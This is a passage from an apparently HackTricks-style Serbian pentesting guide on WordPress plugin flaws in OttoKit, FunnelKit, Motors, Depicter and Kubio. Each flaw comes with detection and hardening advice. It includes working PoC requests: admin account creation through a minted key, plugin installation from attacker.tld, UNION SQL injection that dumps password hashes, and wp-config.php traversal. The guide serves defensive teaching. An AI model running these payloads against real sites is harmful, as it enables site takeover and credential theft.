- Razmotrite privremeno onemogućavanje social login-a ili virtuelno zakrpljivanje na edge nivou (blokiranje ranjive akcije) dok se problem ne otkloni.

Izmenjeno ponašanje (Jobmonster 4.8.0)

- Uklonjena je nesigurna rezervna opcija koja koristi $_POST['id']; $user_email mora poticati iz grana u switch($_POST['using']) koje koriste verifikovanog provajdera.

## Neautentifikovano podizanje privilegija putem REST token/key minting-a na osnovu predvidljivog identiteta (OttoKit/SureTriggers ≤ 1.0.82)

Neki dodaci izlažu REST endpoint-e koji generišu ponovo upotrebljive „connection keys“ ili tokene, a da pritom ne proveravaju capability-je pozivaoca. Ako ruta autentifikuje samo na osnovu atributa koji je lako pogoditi (npr. korisničkog imena) i ne vezuje ključ za korisnika/sesiju uz provere capability-ja, svaki neautentifikovani napadač može da generiše ključ i izvršava privilegovane radnje (kreiranje administratorskog naloga, radnje dodatka → RCE).<sup>[[12]](#references)</sup>

- Ranjiva ruta (primer): sure-triggers/v1/connection/create-wp-connection
- Propust: prihvata korisničko ime i izdaje connection key bez current_user_can() ili stroge permission_callback funkcije
- Uticaj: potpuno preuzimanje sistema povezivanjem generisanog ključa sa internim privilegovanim radnjama

PoC – generisanje connection key-ja i njegova upotreba

```bash
# 1) Obtain key (unauthenticated). Exact payload varies per plugin
curl -s -X POST "https://victim.tld/wp-json/sure-triggers/v1/connection/create-wp-connection" \
  -H 'Content-Type: application/json' \
  --data '{"username":"admin"}'
# → {"key":"<conn_key>", ...}

# 2) Call privileged plugin action using the minted key (namespace/route vary per plugin)
curl -s -X POST "https://victim.tld/wp-json/sure-triggers/v1/users" \
  -H 'Content-Type: application/json' \
  -H 'X-Connection-Key: <conn_key>' \
  --data '{"username":"pwn","email":"p@t.ld","password":"p@ss","role":"administrator"}'
```

Zašto je ranjivo za eksploataciju
- Osetljiva REST ruta zaštićena je samo dokazom identiteta male entropije (username) ili joj nedostaje permission_callback
- Nema provere capability-ja; izdat ključ prihvata se kao univerzalno zaobilaženje

Kontrolna lista za detekciju
- Pretražite kod plugin-a za register_rest_route(..., [ 'permission_callback' => '__return_true' ])
- Bilo koja ruta koja izdaje tokene/ključeve na osnovu identiteta dostavljenog u zahtevu (username/email), a da ga ne povezuje sa autentifikovanim korisnikom ili capability-jem
- Potražite naredne rute koje prihvataju izdat token/ključ bez provere capability-ja na serveru

Ojačavanje
- Za svaku privilegovanu REST rutu: zahtevajte permission_callback koji sprovodi proveru current_user_can() za potrebni capability
- Ne izdajte dugotrajne ključeve na osnovu identiteta dostavljenog od strane klijenta; ako je potrebno, nakon autentifikacije izdajte kratkotrajne tokene vezane za korisnika i ponovo proveravajte capability-je pri njihovoj upotrebi
- Proverite kontekst korisnika koji poziva zahtev (`wp_set_current_user` sam po sebi nije dovoljan) i odbijte zahteve kada važi `!is_user_logged_in() || !current_user_can(<cap>)`.

---

## Zloupotreba nonce provere → neautentifikovana proizvoljna instalacija plugin-a (FunnelKit Automations ≤ 3.5.3)

Nonce-i sprečavaju CSRF, a ne neovlašćen pristup. Ako kod tretira uspešnu nonce proveru kao zeleno svetlo, a zatim preskače proveru capability-ja za privilegovane operacije (npr. instalaciju/aktivaciju plugin-a), neautentifikovani napadači mogu da ispune slabe nonce zahteve i dođu do RCE instaliranjem backdoor ili ranjivog plugin-a.<sup>[[13]](#references)</sup>

- Ranjiva putanja: plugin/install_and_activate
- Propust: slaba provera nonce hash-a; nema provere current_user_can('install_plugins'|'activate_plugins') kada nonce „prođe“
- Uticaj: potpuna kompromitacija proizvoljnom instalacijom/aktivacijom plugin-a

PoC (oblik zavisi od plugin-a; samo ilustrativno)

```bash
curl -i -s -X POST https://victim.tld/wp-json/<fk-namespace>/plugin/install_and_activate \
  -H 'Content-Type: application/json' \
  --data '{"_nonce":"<weak-pass>","slug":"hello-dolly","source":"https://attacker.tld/mal.zip"}'
```

Detection checklist
- REST/AJAX handleri koji menjaju plugins/themes samo pomoću wp_verify_nonce()/check_admin_referer() i bez provere capability-ja
- Bilo koja putanja koda koja postavlja $skip_caps = true nakon validacije nonce-a

Hardening
- Nonce-ove uvek tretirajte samo kao CSRF tokene; sprovodite provere capability-ja bez obzira na stanje nonce-a
- Zahtevajte current_user_can('install_plugins') i current_user_can('activate_plugins') pre pristupa installer kodu
- Odbijte neautentifikovan pristup; izbegavajte izlaganje nopriv AJAX akcija za privilegovane tokove

### Subscriber+ AJAX instalacija plugin-a → prinudna aktivacija zlonamernog plugin-a (Motors Theme ≤ 5.6.81)

[Patchstack-ova analiza](https://patchstack.com/articles/critical-arbitrary-file-upload-vulnerability-in-motors-theme-affecting-20k-sites/) pokazala je kako se uz Motors theme isporučuje autentifikovani AJAX pomoćnik za instalaciju pratećeg plugin-a:<sup>[[16]](#references)</sup>

```php
add_action('wp_ajax_mvl_theme_install_base', 'mvl_theme_install_base');

function mvl_theme_install_base() {
    check_ajax_referer('mvl_theme_install_base', 'nonce');

    $plugin_url  = sanitize_text_field($_GET['plugin']);
    $plugin_slug = 'motors-car-dealership-classified-listings';

    $upgrader = new Plugin_Upgrader(new Motors_Theme_Plugin_Upgrader_Skin(['plugin' => $plugin_slug]));
    $upgrader->install($plugin_url);
    mvl_theme_activate_plugin($plugin_slug);
}
```

- Poziva se samo `check_ajax_referer()`; nema `current_user_can('install_plugins')` ni `current_user_can('activate_plugins')`.
- Nonce je ugrađen u administratorsku stranicu Motors, pa svaki Subscriber koji može da otvori `/wp-admin/` može da ga preuzme iz HTML/JS koda.
- Handler veruje parametru `plugin` koji kontroliše napadač (čita se iz `$_GET`) i prosleđuje ga funkciji `Plugin_Upgrader::install()`, pa se proizvoljan udaljeni ZIP preuzima u `wp-content/plugins/`.
- Nakon instalacije, tema bezuslovno poziva `mvl_theme_activate_plugin()`, čime se garantuje izvršavanje PHP koda dodatka napadača.

#### Tok eksploatacije

1. Registrujte ili kompromitujte nalog sa niskim privilegijama (Subscriber je dovoljan) i preuzmite nonce `mvl_theme_install_base` iz Motors kontrolne table.
2. Napravite ZIP dodatka čiji direktorijum u najvišem nivou odgovara očekivanom slug-u `motors-car-dealership-classified-listings/` i ugradite backdoor ili webshell u ulazne tačke `*.php`.
3. Hostujte ZIP i pokrenite instalacioni program tako što ćete handleru proslediti URL:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: victim.tld
Cookie: wordpress_logged_in_=...
Content-Type: application/x-www-form-urlencoded

action=mvl_theme_install_base&nonce=<leaked_nonce>&plugin=https%3A%2F%2Fattacker.tld%2Fmotors-car-dealership-classified-listings.zip
```

Because handler čita `$_GET['plugin']`, isti payload može da se pošalje i putem query stringa.

#### Kontrolna lista za detekciju

- Pretražite teme/dodatke za `Plugin_Upgrader`, `Theme_Upgrader` ili prilagođene pomoćne funkcije `install_plugin.php` povezane sa `wp_ajax_*` hookovima bez provera mogućnosti.
- Pregledajte sve handlere koji uzimaju parametar `plugin`, `package`, `source` ili `url` i prosleđuju ga upgrader API-jima, naročito kada je slug hardkodiran, a sadržaj ZIP-a nije validiran.
- Pregledajte admin stranice koje izlažu nonce vrednosti za radnje instalacije — ako Subscribers mogu da učitaju stranicu, pretpostavite da nonce može da procuri.

#### Ojačavanje

- Nakon provere nonce vrednosti, ograničite AJAX callbackove za instalaciju pomoću `current_user_can('install_plugins')` i `current_user_can('activate_plugins')`; Motors 5.6.82 je uveo ovu proveru kako bi ispravio grešku.
- Odbijajte nepouzdane URL-ove: ograničite instalatere na ugrađene ZIP-ove ili pouzdane repozitorijume, ili zahtevajte potpisane manifeste za preuzimanje.
- Tretirajte nonce vrednosti isključivo kao CSRF tokene; one ne obezbeđuju autorizaciju i nikada ne bi smele da zamene provere mogućnosti.

---

## Unauthenticated SQLi preko search parametra s u akcijama depicter-* (Depicter Slider ≤ 3.6.1)

Više akcija depicter-* koristilo je parametar s (pretraga) i nadovezivalo ga na SQL upite bez parametrizacije.<sup>[[14]](#references)</sup>

- Parametar: s (pretraga)
- Propust: direktno nadovezivanje stringa u WHERE/LIKE klauzulama; bez pripremljenih iskaza/čišćenja unosa
- Uticaj: eksfiltracija baze podataka (korisnici, hash-evi), lateralno kretanje

PoC

```bash
# Replace action with the affected depicter-* handler on the target
curl -G "https://victim.tld/wp-admin/admin-ajax.php" \
  --data-urlencode 'action=depicter_search' \
  --data-urlencode "s=' UNION SELECT user_login,user_pass FROM wp_users-- -"
```

Lista za proveru detekcije
- Pretražite depicter-* action handlers i direktnu upotrebu $_GET['s'] ili $_POST['s'] u SQL-u
- Pregledajte prilagođene upite prosleđene funkcijama $wpdb->get_results()/query() koji konkateniraju s

Ojačavanje bezbednosti
- Uvek koristite $wpdb->prepare() ili wpdb placeholders; odbacite neočekivane metakaraktere na serveru
- Dodajte strogu allowlist za s i normalizujte je na očekivani charset/dužinu

---

## Unauthenticated Local File Inclusion via unvalidated template/file path (Kubio AI Page Builder ≤ 2.5.1)

Prihvatanje putanja pod kontrolom napadača u parametru template bez normalizacije/provere pripadnosti omogućava čitanje proizvoljnih lokalnih fajlova, a ponekad i izvršavanje koda ako se PHP/log fajlovi koji mogu da se uključe učitaju u runtime.<sup>[[15]](#references)</sup>

- Parametar: __kubio-site-edit-iframe-classic-template
- Propust: nema normalizacije/allowlist; traversal je dozvoljen
- Uticaj: otkrivanje tajni (wp-config.php), potencijalni RCE u specifičnim okruženjima (poisoning logova, PHP fajlovi koji mogu da se uključe)

PoC – čitanje wp-config.php

```bash
curl -i "https://victim.tld/?__kubio-site-edit-iframe-classic-template=../../../../wp-config.php"
```

Kontrolna lista za detekciju
- Svaki handler koji konkatenira putanje zahteva u include()/require()/read sinks bez provere containment-a pomoću realpath()
- Potražite obrasce path traversal-a (../) koji vode izvan predviđenog direktorijuma sa template-ima

Ojačavanje zaštite
- Ograničite template-e na allowlist-u; razrešite putanje pomoću realpath() i require str_starts_with(realpath(file), realpath(allowed_base))
- Normalizujte ulaz; odbacujte sekvence path traversal-a i apsolutne putanje; koristite sanitize_file_name() samo za nazive fajlova (ne za pune putanje)


{{#include ../../banners/hacktricks-training.md}}

## References

- [1] [Ranjivost koja omogućava neautentifikovano proizvoljno brisanje fajlova u temi Litho](https://patchstack.com/articles/unauthenticated-arbitrary-file-delete-vulnerability-in-litho-the/)
- [2] [U WP Job Portal plugin-u zakrpljeno više kritičnih ranjivosti](https://patchstack.com/articles/multiple-critical-vulnerabilities-patched-in-wp-job-portal-plugin/)
- [3] [Redak slučaj eskalacije privilegija u ASE plugin-u koji pogađa više od 100.000 sajtova](https://patchstack.com/articles/rare-case-of-privilege-escalation-in-ase-plugin-affecting-100k-sites/)
- [4] [ASE 7.6.3 changeset – brisanje originalnih uloga pri ažuriranju profila](https://plugins.trac.wordpress.org/changeset/3211945/admin-site-enhancements/tags/7.6.3/classes/class-view-admin-as-role.php?old=3208295&old_path=admin-site-enhancements%2Ftags%2F7.6.2%2Fclasses%2Fclass-view-admin-as-role.php)
- [5] [Testirana bezbednost hostinga: 87,8% eksploita ranjivosti zaobišlo je zaštitu hostinga](https://patchstack.com/articles/hosting-security-tested-87-percent-of-vulnerability-exploits-bypassed-hosting-defenses/)
- [6] [WooCommerce Payments ≤ 5.6.1 – neautentifikovana eskalacija privilegija putem pouzdanog header-a (Patchstack DB)](https://patchstack.com/database/wordpress/plugin/woocommerce-payments/vulnerability/wordpress-woocommerce-payments-plugin-5-6-1-unauthenticated-privilege-escalation-vulnerability)
- [7] [Hakeri iskorišćavaju kritičnu grešku u WordPress WooCommerce Payments-u](https://www.bleepingcomputer.com/news/security/hackers-exploiting-critical-wordpress-woocommerce-payments-bug/)
- [8] [Nezakrpljena eskalacija privilegija u plugin-u Service Finder Bookings](https://patchstack.com/articles/unpatched-privilege-escalation-in-service-finder-bookings-plugin/)
- [9] [Eskalacija privilegija u Service Finder Bookings-u – Patchstack DB zapis](https://patchstack.com/database/wordpress/plugin/sf-booking/vulnerability/wordpress-service-finder-booking-6-0-privilege-escalation-vulnerability)
- [10] [Ranjivost neispravne autentifikacije u WordPress Jobmonster temi koja se može iskoristiti bez autentifikacije](https://patchstack.com/articles/unauthenticated-broken-authentication-vulnerability-in-wordpress-jobmonster-theme/)
- [11] [Najčešće iskorišćavane ranjivosti u WordPress-u u Q3 2025. i kako ih je RapidMitigate blokirao](https://patchstack.com/articles/q3-2025s-most-exploited-wordpress-vulnerabilities-and-how-patchstacks-rapidmitigate-blocked-them/)
- [12] [OttoKit (SureTriggers) ≤ 1.0.82 – eskalacija privilegija (Patchstack DB)](https://patchstack.com/database/wordpress/plugin/suretriggers/vulnerability/wordpress-suretriggers-1-0-82-privilege-escalation-vulnerability)
- [13] [FunnelKit Automations ≤ 3.5.3 – neautentifikovana proizvoljna instalacija plugin-a (Patchstack DB)](https://patchstack.com/database/wordpress/plugin/wp-marketing-automations/vulnerability/wordpress-recover-woocommerce-cart-abandonment-newsletter-email-marketing-marketing-automation-by-funnelkit-plugin-3-5-3-missing-authorization-to-unauthenticated-arbitrary-plugin-installation-vulnerability)
- [14] [Depicter Slider ≤ 3.6.1 – neautentifikovani SQLi putem parametra s (Patchstack DB)](https://patchstack.com/database/wordpress/plugin/depicter/vulnerability/wordpress-depicter-slider-plugin-3-6-1-unauthenticated-sql-injection-via-s-parameter-vulnerability)
- [15] [Kubio AI Page Builder ≤ 2.5.1 – neautentifikovani LFI (Patchstack DB)](https://patchstack.com/database/wordpress/plugin/kubio/vulnerability/wordpress-kubio-ai-page-builder-plugin-2-5-1-unauthenticated-local-file-inclusion-vulnerability)
- [16] [Kritična ranjivost koja omogućava proizvoljno otpremanje fajlova u temi Motors, koja pogađa više od 20.000 sajtova](https://patchstack.com/articles/critical-arbitrary-file-upload-vulnerability-in-motors-theme-affecting-20k-sites/)
- [17] [nowak0x01.github.io - Radovi](https://nowak0x01.github.io/papers/76bc0832a8f682a7e0ed921627f85d1d.html)
- [18] [nowotarski.info - WordPress nonce autorizacija](https://nowotarski.info/wordpress-nonce-authorization)
- [19] [XSS2Shell: lanac od preauth XSS-a do RCE-a u WordPress-u](https://pwn.ai/blog/xss2shell)
- [20] [Bezbednosno izdanje WordPress 7.0.3](https://wordpress.org/news/2026/08/wordpress-7-0-3-release/)
- [21] [Uređivanje `wp-config.php` – priručnik za naprednu administraciju WordPress-a](https://developer.wordpress.org/advanced-administration/wordpress/wp-config/)
- [22] [WordPress XML-RPC API i serverska implementacija](https://developer.wordpress.org/reference/classes/wp_xmlrpc_server/)
- [23] [Nova funkcionalnost XML mapa sajta u WordPress-u 5.5](https://make.wordpress.org/core/2020/07/22/new-xml-sitemaps-functionality-in-wordpress-5-5/)
- [24] [Korisničke uloge i mogućnosti u WordPress-u](https://developer.wordpress.org/apis/security/user-roles-and-capabilities/)
- [25] [`wp_xmlrpc_server::pingback_ping()` i bezbedna validacija udaljenih URL-ova](https://developer.wordpress.org/reference/classes/wp_xmlrpc_server/pingback_ping/)
- [26] [Provere WordPress zahteva u QuickPress-u](https://github.com/t0gu/quickpress/blob/master/core/requests.go)
- [27] [WordPress nonce vrednosti nisu autorizacija](https://developer.wordpress.org/apis/security/nonces/)
- [28] [Konfigurisanje automatskih pozadinskih ažuriranja WordPress-a](https://developer.wordpress.org/advanced-administration/upgrade/upgrading/)
- [29] [Ojačavanje zaštite WordPress-a](https://developer.wordpress.org/advanced-administration/security/hardening/)
- [30] [Must Use Plugins – priručnik za naprednu administraciju WordPress-a](https://developer.wordpress.org/advanced-administration/plugins/mu-plugins/)
- [31] [Hiljade hakovanih WordPress sajtova, jedna operacija: razotkrivanje StopAndProtect-a](https://research.checkpoint.com/2026/thousands-of-hacked-wordpress-sites-one-operation-unmasking-stopandprotect/)
- [32] [Click2Shell: lanac od preauth ubacivanja u pregled teme WordPress jezgra do RCE-a](https://pwn.ai/blog/click2shell)
- [33] [WordPress Core changeset 63664: escape theme-install selector-a](https://core.trac.wordpress.org/changeset/63664)
- [34] [WordPress 7.1.1 – izdanje za održavanje i bezbednost](https://wordpress.org/news/2026/09/wordpress-7-1-1-maintenance-and-security-release/)
- [35] [Searchlight Cyber: istraživanje wp2shell-a i lanac eksploatacije](https://slcyber.io/research-center/exploit-brokers-pay-500000-for-a-wordpress-rce-i-found-one-with-gpt5-6/)
- [36] [Eye Security: vodič za odgovor na incidente wp2shell](https://research.eye.security/wp2shell-defenders-guide/)
- [37] [WordPress savet o zabuni batch-route-a](https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-ff9f-jf42-662q)
- [38] [WordPress savet o SQL injection-u u WP_Query-u](https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-fpp7-x2x2-2mjf)
- [39] [Javni proof of concept za wp2shell](https://github.com/Icex0/wp2shell-poc)
- [40] [Korišćenje WPScan-a i enumeracija rezervnih direktorijuma](https://github.com/wpscanteam/wpscan/blob/master/README.md)
- [41] [Izmene u izdanju WPScan 4.0](https://wpscan.com/blog/wpscan-4-0-0-were-back/)
- [42] [Snicco: istraživanje Bricks server-side render-a i query editor-a](https://snicco.io/vulnerability-disclosure/bricks/unauthenticated-rce-in-bricks-1-9-6)
- [43] [Patchstack: analiza Bricks render endpoint-a](https://patchstack.com/articles/critical-rce-patched-in-bricks-builder-theme/)
- [44] [Wordfence: analiza dešifrovanja i naziva fajlova u WPvivid backup receiver-u](https://www.wordfence.com/blog/2026/02/800000-wordpress-sites-affected-by-arbitrary-file-upload-vulnerability-in-wpvivid-backup-wordpress-plugin/)
- [45] [Ponašanje javnog archive URL-a u Fast Backups-u](https://wordpress.org/plugins/fast-backups/)
- [46] [ProjectDiscovery Nuclei workflow za WordPress](https://github.com/projectdiscovery/nuclei-templates/blob/main/workflows/wordpress-workflow.yaml)
- [47] [0xdf — HTB: MakeSense](https://0xdf.gitlab.io/2026/10/31/htb-makesense.html)
